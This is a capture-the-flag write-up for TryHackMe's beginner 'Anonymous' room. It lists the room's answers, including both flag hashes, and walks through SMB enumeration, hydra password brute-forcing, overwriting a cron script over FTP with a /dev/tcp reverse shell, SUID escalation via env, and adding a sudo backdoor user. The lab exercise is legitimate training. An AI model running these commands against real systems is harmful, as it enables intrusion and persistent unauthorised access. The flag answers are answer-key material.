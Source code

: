 Anonymous
#########
:Author: David Boyd
:Date: 2020-11-22

[Task 1] Pwn
************

Try to get the two flags!  Root the machine and prove your understanding of the
fundamentals! This is a virtual machine meant for beginners. Acquiring both
flags will require some basic knowledge of Linux and privilege escalation
methods.

For more information on Linux, check out `Learn Linux
<https://tryhackme.com/room/zthlinux>`_

Questions
=========

1. Enumerate the machine.  How many ports are open?
---------------------------------------------------
:Answer: 4

2. What service is running on port 21?
--------------------------------------
:Answer: FTP

3. What service is running on ports 139 and 445?
------------------------------------------------
:Answer: SMB

4. There's a share on the user's computer.  What's it called?
-------------------------------------------------------------
:Answer: pics

Walkthrough
^^^^^^^^^^^
:Reference: `SMB Enum Shares <https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/>`_

.. code-block:: Bash

	# enumerate SMB shares
	smbclient -L $TM

	# connect to share
	smbclient \\\\$TM\\pics

5. user.txt
-----------
:Answer: 90d6f992585815ff991e68748c414740
:Walkthrough: GOTO Reverse SHell

6. root.txt
-----------
:Answer: 4d930091c31a622a7ed10f27999af363
:Walkthrough: GOTO Privilege Escalation

Reconnaissance
**************

SMB Fun
=======

enum4linux
	a wrapper around the Samba tools: smbclinet, rpclient, net, and nmblookup.
	`enum4linux -A $TM` (Note: Does NOT identify vulns)

hydra
	`hydra -l namelessone -P /usr/share/wordlists/rockyou.txt smb -V -f -t 40`

nbtscan
	scan networks searching for NetBIOS information. `nbtscan $TM`

nmap scripts
	detect if SMB/Samba server is vulnerable to a RCE vuln. `nmap --script
	smb-vuln* -p 139,445 $TM` (Note: It's not; but there is a DOS)

nmblookup
	NetBIOS over TCP/IP client used to lookup NetBIOS names. `nmblookup -A $TM`

rpclient
	test MS-RPC functionality in Samba, manage Windows NT clients from UNIX
	workstations, and **open an authenticated SMB session w/ a NULL Session by
	entering username of ""**

.. code-block:: Bash

	# Connect to server
	rpcclient -U "" -N $TM
	# Enumerate users
	enumdomusers
		> user:[namelessone] rid:[0x3eb]
	# Query user to catch all kinds of information related to an individul user
	queryuser namelessone		# method 1
	queryuser 0x3eb      		# method 2

smbclient
	is a client that offers an interface similar to that of the FTP prgm that
	can 'talk' to an SMB/CIFS server.

.. code-block:: Bash

	# List shares
	smbclient -L $TM
	# Start smb session
	smbclient //$TM/<share>			# method 1
	smbclinet \\\\$TM\\<share>		# method 2

smbmap
	lists share drives, drive **permissions**, share contents, up/download
	functionality, file name auto-download pattern matching, and even execute
	remote commands.

.. code-block:: Bash

	smbmap -H $TM
	smbmap -H $TM -d <domainName(workgroup)> -u <userName> -p <password>

Reverse Shell
=============

.. code-block:: Bash

	## In FTP server
	ftp $TM 21			### NOTE: use 'lftp' from now on
	cd scripts
	get clean.sh				### NOTE: use 'lftp > edit'

	## In LHOST
	vim clean.sh
	# Replace then statement with reverse shell
	bash -i >& /dev/tcp/10.x.x.x/4444 0>&1
	# setup listener
	nc -nvlp 4444

	## In FTP server
	# Replace clean.sh with your reverse shell version
	put clean.sh

	## IN LHOST > nc
	# upgrade simple shell to a fully interactive ttys
	python -c 'import pty; pty.spawn("/bin/bash")'	# can be sketchy on this.$TM

	# GOTO CTF(1) user.txt

Privilege Escalation
====================

.. code-block:: Bash

	# Find our SUID files
	find / -perm /4000 2>/dev/null
		# files of particular interest
		/usr/bin/env

	# GOTO https://gtfobins.github.io/ -> env

	# Escalate Privs
	/usr/bin/env /bin/sh -p
	whoami

	# GOTO CTF(2) root.txt

Capture The Flag
================

.. code-block:: Bash

	# CTF(1) users.txt
	ls
	cat users.txt

	# CTF(2) root.txt
	find / -type f -name "root.txt" 2>/dev/null
	cat /root/root.txt

Other Fun Stuff
===============

useradd
-------
:Note: Doesn't work with cronjob script :(

.. code-block:: Bash

	# Add a user to sudoer group; password must be hashed!
	# useradd -g(roup) -p(assword-Hashed) <newUserName>
	sudo useradd -g sudo -p $( perl -e 'print crypt("student", "salt")') student

	perl -e 'print crypt("student", "salt")'
		> sa5hbTIQ04V26

lftp
----
:Purpose: You can use in-server editing of files!

lftp
	is a file transfer program that allows sophisticated FTP, HTTP and other
	connections to other hosts.

